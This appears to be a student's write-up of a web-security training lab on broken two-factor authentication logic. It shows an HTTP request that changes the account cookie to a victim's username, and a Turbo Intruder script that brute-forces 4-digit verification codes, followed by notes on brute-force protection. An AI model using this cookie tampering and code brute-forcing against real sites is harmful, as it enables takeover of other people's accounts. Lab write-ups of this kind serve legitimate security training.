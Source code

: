 - In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.
```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```
- This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. 
- They would never even need to know the user's password.

# Lab: 2FA broken logic
- This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.
- Your credentials: wiener:peter
- Victim's username: carlos
- You also have access to the email server to receive your 2FA verification code.


# My Solution
- I submitted my credentials and intercepted the request
- I intercepted the response too, I notice set-Cookie that is seeting verify=wiener
- I changed it to carlos
- Subsesequent requests were having cookie carlos instead of wiener
- But the 2fa code did not land in wiener mail
- I sent the request to burp turbo intruder and the I used the code below
```
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           engine=Engine.BURP2
                           )

    passwords = [p.strip() for p in open('/home/kali/SecLists-master/Fuzzing/4-digits-0000-9999.txt', 'r').readlines()]
    
    for password in passwords:
        engine.queue(target.req, password)

def handleResponse(req, interesting):
    table.add(req)
```
- I got a 302 response and I copied the code and pasted it in
- The lab was solved

# Brute-forcing 2FA verification codes
- As with passwords, websites need to take steps to prevent brute-forcing of the 2FA verification code. 
- This is especially important because the code is often a simple 4 or 6-digit number. 
- Without adequate brute-force protection, cracking such a code is trivial.
- Some websites attempt to prevent this by automatically logging a user out if they enter a certain number of incorrect verification codes. 
- This is ineffective in practice because an advanced attacker can even automate this multi-step process by creating macros for Burp Intruder. 
- The Turbo Intruder extension can also be used for this purpose.
